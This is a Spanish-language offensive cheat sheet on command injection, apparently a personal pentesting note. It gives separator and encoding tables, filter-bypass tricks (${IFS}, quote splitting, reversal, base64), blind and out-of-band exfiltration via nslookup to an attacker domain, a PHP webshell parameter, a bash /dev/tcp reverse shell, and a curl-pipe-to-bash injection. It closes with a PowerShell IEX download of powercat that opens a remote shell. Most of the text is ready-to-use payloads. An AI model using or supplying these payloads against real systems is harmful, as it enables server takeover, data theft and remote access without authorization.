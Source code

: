siempre que se haga una consulta sobre un item a un backend contastar si es posible una injección de comando aparte de una sqli, 
algunos backends corren código para hacer querys sobre aplicaciones légacy ;)

|Nombre | simbolo | hexa | argumento a ejecutar|
|----|---|---|---|
|Semicolon |	; |	%3b |	Both |
|New Line 	| \n |	%0a |	Both | 
|Background | 	& | 	%26 |	Both (second output generally shown first)|
|Pipe 	   |   \| |	\%7c |	Both (only second output is shown) |
|AND 	|     && |	%26%26 |	Both (only if first succeeds)|
|OR 	  |     \|\| |	\%7c%7c |	Second (only if first fails) |
|Sub-Shell | `` |	%60%60 |	Both (Linux-only)|
|Sub-Shell | $() |	%24%28%29 |	Both (Linux-only)|

podemos luego de encontrar el conector entre comandos, si hay algún filtro posterior utilizar diferentes secuencias:


${IFS} inserta un espacio y una tabulación y luego el comando


{ls,-la} agrega comandos como argumentos y agregando espacios en los mismos

para bypassear blacklisted characters se puede utilizar una extracción del caracter del index de una variable de entorno:


${PATH:0:1} (en este caso estaríamos extrayendo el caracter del index 0 de la variable PATH que sería "/"


$env:HOMEPATH[0] mismo ejemplo en windows

podemos concatenar estas técnicas, ej:


127.0.0.1%0a{ls,${PATH:0:1}home}

SQL Injection 	' , ; -- /* */


Command Injection 	; &&


LDAP Injection 	* ( ) & |


XPath Injection 	' or and not substring concat count


OS Command Injection 	; & |


Code Injection 	' ; -- /* */ $() ${} #{} %{} ^


Directory Traversal/File Path Traversal 	../ ..\\ %00


Object Injection 	; & |


XQuery Injection 	' ; -- /* */


Shellcode Injection 	\x \u %u %n


Header Injection 	\n \r\n \t %0d %0a %09



### bypass command blacklisted

podemos agregar caracteres que no son tomados en cuenta en linux y windows como las comillas simples y dobles entre la morfologia del comando

who'am'i

who"am"i

##### Linux only:
who$@ami

w\ho\am\i

##### Windows:
 who^ami

podemos encontrarnos otras medidas como firewalls que nos bloqueen los comandos, con lo cual podemos utilizar diferentes técnicas de bypass:
Case manipulation:

WhOaMi 

Para las terminales case-sensitive como la terminal de linux, podemos utilizar comandos como:

  $(tr "[A-Z]"%09"[a-z]"<<<"WhOaMi")

  
o aplicando un reversing:

##### Linux:

  $(rev<<<'imaohw')

##### Windows:
  iex "$('imaohw'[-1..-20] -join '')"

#### Encodear un comando:

ejemplo de comando pasado a base64:

    echo -n 'cat /etc/passwd | grep 33' | base64

resultado: Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==

    payload: bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)


### Blind command injection
Podemos probar blind command injections utilizando comandos que incluyan un temporizador:

parametro= x||ping+-c+10+127.0.0.1||

Redirecting Output:
Podemos también crear archivos internos con la información de los comandos, de esta manera podremos luego visitar el archivo
creado y consultar el resultado:
parametro = || whoami > /var/www/static/whoami.txt ||

Out-of-band exfiltration:
x || nslockup 'whoami'.servidor-del-atacante.com ||
Nos llegara una request a un subdominio con los datos del comando ejecutado.


################## Code injection en un parametro php:
podemos crear una webshell en un parámetro php que ejecuta código de la siguiente manera:

        parameter = ${system($_GET[cmd])}&cmd=


### Obteniendo una shell:



##### crear la shell
        echo -e '#!/bin/bash\nsh -i >& /dev/tcp/10.10.14.70/4444 0>&1' > rev.sh

##### iniciar un servidor python y un netcat

##### Llamar a la páginacon curl:

##### inyectar código:
        test;curl${IFS}http://10.10.14.49:7000/rev.sh|bash;

##### Obtener una mejor shell:
        script /dev/null -c bash

## RCE en windows

    IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell 

##### Levantamos un server python en la carpeta con powercat

##### modificado para web:

    <legit_command>%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F<IP>:8000%2Fpowercat.ps1%22)%3Bpowercat%20-c%20<IP>%20-p%20<port>%20-e%20powershell
